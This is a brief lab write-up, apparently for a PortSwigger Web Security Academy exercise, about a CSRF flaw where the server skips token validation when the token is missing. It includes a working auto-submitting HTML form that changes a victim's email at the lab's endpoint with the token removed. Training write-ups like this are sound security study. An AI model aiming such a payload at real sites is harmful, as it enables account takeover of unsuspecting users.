 # Lab: CSRF where token validation depends on token being present

 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

## CSRF
* 這一題把 csrf token 刪掉也可以改 email
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://acd31f571f94f0dcc00d0ded008600b4.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="exploit&#64;email&#46;com" />
    </form>
  </body>
<script>document.forms[0].submit();</script>
</html>

```